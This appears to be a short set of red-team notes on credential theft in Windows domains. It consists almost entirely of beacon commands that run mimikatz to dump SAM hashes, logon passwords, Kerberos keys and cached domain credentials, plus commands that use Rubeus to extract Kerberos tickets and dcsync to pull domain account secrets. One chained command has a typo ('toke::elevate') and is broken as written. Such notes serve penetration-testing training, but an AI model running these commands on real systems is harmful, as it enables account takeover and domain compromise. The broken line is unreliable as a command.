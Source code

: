 # Credential Theft Notes

**Beacon + Mimikatz**

Can run mimikatz in beacon
```
mimikatz token::elevate
mimikatz lsadump::sam
```

You can chain commands with the semicolon
```
mimikatz toke::elevate ; lsadump::sam
```

Can use ! to elevate as SYSTEM
```
mimikatz !lsadump::sam
```

**NTLM Hashes**

We can dump possible plaintext passwords with mimikatz sekurlsa::logonpasswords
```
mimikatz !sekurlsa::logonpasswords
```

**Kerberos Encryption Keys**
Dumps kerberos encryption keys of logged on users
```
mimikatz !sekurlsa::ekeys
```

**Security Account manager**

```
mimikatz !lsadump::sam
```

**Domain Cached Credentials**
dumps any domain creds saved on the machine
```
mimikatz !lsadump::cache
```

**Extracting Kerberos Tickets**

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

Pulling with Rubeus for a specific user TGT
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt
```

**DCSYNC**
a fun one, using a token of a domain admin user
```
make_token DOMAIN\User <password>
dcsync <dc domain> <user to dump>
```
